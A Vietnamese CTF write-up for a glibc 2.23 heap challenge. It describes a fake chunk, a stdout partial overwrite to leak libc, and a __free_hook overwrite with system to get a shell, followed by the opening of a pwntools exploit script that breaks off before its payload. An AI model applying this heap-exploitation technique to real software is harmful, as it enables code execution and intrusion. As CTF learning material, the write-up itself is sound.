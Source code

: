 - Tại địa chỉ `0x404010 + 8 = 0x80` ta có thể dùng vùng này làm 1 fake chunks, khi đó malloc sẽ hợp lệ
- Sau đó ta buộc phải nhập dữ liệu bắt đầu từ địa chỉ `0x404020`, tại địa chỉ này nếu nhập dữ liệu khiến stdout không hợp lệ chương trình sẽ báo lỗi, ta chỉ nhập 1 byte cuối là `0x20`, sau đó ta sẽ leak được libc, và với kích thước 0x70 byte ta sẽ thay đổi con trỏ ptr để ghi system vào __free_hook, sau đó khi ta free 1 vùng chứa chuỗi '/bin/sh' thì sẽ lấy được shell
![image](https://hackmd.io/_uploads/r15yI-AAkg.png)
## Fullscript
```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)
slan = lambda msg, num: sla(msg, str(num).encode())
san = lambda msg, num: sa(msg, str(num).encode())
sln = lambda num: sl(str(num).encode())
sn = lambda num: s(str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript=f'''
        user-pwndbg
        # b* main +78
        # b* main +102
        # b* main +155
        # b* main +179
        b* main +241
        b* main +329
        b* main +488
        b* main +192
        b* main +407
        c
        ''')

if args.REMOTE:
    conn = ''.split()
    p = remote(conn[1], int(conn[2]))
else:
    p = process(exe.path)
GDB()

def buy(size, content):
    sla(b'> ', b'1')
    sla(b'Size: ', str(size))
    sa(b'Content: ', content)

def write(content):
    sla(b'> ', b'2')
```